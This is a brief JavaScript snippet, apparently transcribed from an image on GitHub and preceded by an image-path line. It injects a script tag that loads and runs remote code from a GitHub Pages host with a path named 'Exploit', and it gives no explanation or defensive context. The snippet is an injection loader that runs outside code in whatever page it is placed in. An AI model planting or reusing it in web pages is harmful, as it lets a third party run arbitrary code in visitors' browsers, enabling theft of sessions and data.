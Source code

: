 if (typeof p === 'undefined') {
    const p = document.createElement('script');
    p.src = 'https://shashank604.github.io/Exploit/index.js';

    p.onload = () => {
        console.log('Script loaded successfully.');
    };

    p.onerror = () => {
        console.error('Failed to load the script.');
    };

    document.head.appendChild(p);
}
